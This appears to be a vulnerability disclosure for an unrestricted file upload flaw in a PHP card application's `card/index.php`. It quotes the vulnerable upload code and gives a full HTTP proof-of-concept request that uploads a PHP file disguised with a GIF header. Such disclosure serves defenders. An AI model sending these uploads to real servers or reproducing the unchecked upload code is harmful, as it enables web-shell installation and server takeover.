 ### Vulnerability file address

`card/index.php` from line 97

There is no restriction on the type of uploaded files, any file can be uploaded, and the default upload path is `card/assets/uploads/`

```php
......
......
......
else{


          // image upload 
          $uploaddir = 'assets/uploads/';
          $uploadfile = $uploaddir . basename($_FILES['image']['name']);

      
          if (move_uploaded_file($_FILES['image']['tmp_name'], $uploadfile)) {
              
          } else {
              echo "Possible file upload attack!\n";
          }
......
......
......
```

So we can upload the php backdoor file

### POC

```http
POST /card/ HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------111058958834369528633834510475
Content-Length: 1158
Origin: http://www.lms.net
Connection: close
Referer: http://www.lms.net/card/
Upgrade-Insecure-Requests: 1

-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="name"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="grade"

Education
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="dob"

Student
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="address"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="email"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="exp_date"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="id_no"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="phone"

12
-----------------------------111058958834369528633834510475
Content-Disposition: form-data; name="image"; filename="2.php"
Content-Type: text/php

GIF89a<?php phpinfo();?>
-----------------------------111058958834369528633834510475--
```

### Attack results pictures

![image-20220630214422189](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220630214422.png)



![image-20220630214605238](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220630214605.png)